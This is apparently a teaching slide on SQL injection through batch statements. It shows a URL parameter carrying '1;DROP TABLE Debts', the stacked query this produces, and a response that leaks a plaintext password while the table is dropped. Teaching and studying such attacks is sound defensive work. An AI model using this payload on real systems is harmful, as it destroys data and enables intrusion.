

# Injecting Batch Statements
Injecting ;DROP TABLE Debts
http://localhost:8080/findUserById
										?userId=1;DROP TABLE Debts

Creates the following malicious SQL
select * from users where id = 1;DROP TABLE Debts;

Results in the response, but the Debts table is gone!
{"id": 1,"username": "alice","password": "alice"}